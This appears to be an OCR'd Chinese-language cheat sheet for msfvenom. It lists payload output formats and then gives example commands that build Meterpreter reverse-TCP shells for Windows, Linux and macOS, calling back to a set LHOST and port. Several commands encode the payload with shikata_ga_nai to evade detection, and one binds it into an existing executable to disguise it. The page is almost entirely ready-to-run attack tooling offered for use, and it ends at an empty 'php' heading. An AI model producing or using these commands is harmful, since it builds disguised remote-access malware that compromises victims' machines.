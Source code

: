 ```
    dw
    dword
    hex
    java
    js_be
    js_le
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
```

#### 实例

	msfvenom -p <payload> <payload options> -f <format> -o <path>

* 普通生成

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -f exe -o hack.exe

			
* 编码处理

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o hack1.exe

* 捆绑

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 --platform windows -a x86 -x hack.exe -k -f exe -o hack3.exe

* windows

	msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444  -i 3 -e x86/shikata_ga_nai -f exe -o hack4.exe

* linux

	msfvenom -lp | grep linux | grep reverse_tcp | grep x86

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -f elf >shell.elf

* mac

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

* php

